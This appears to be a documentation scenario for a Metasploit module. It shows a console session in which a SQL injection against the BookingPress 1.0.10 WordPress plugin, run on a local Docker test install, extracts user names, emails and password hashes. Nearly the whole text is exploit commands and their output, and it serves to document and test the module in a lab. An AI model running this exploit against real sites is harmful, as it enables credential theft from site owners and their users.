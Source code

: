 ### Booking Press 1.0.10, WordPress Latest Docker Image on Debian 11 (bullseye)
```
msf6 > use auxiliary/gather/wp_bookingpress_category_services_sqli
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set RPORT 8000
RPORT => 8000
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set TARGETURI "/?page_id=10"
TARGETURI => /?page_id=10
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > show options

Module options (auxiliary/gather/wp_bookingpress_category_services_sqli):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8000             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /?page_id=10     yes       The URL of the BookingPress appointment booking page
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > check
[+] 127.0.0.1:8000 - The target is vulnerable.
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > exploit
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username   Email                  Hash
 --------   -----                  ----
 normal     normal@test.com        $P$Bu9/XNK93oyUTKO.zJ9yGZfYAcbZg9.
 testAdmin  test@testfakeness.com  $P$BYWtZOfh8yqLCKA877hwBysqGdRtk/.

[*] Auxiliary module execution completed
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) >
```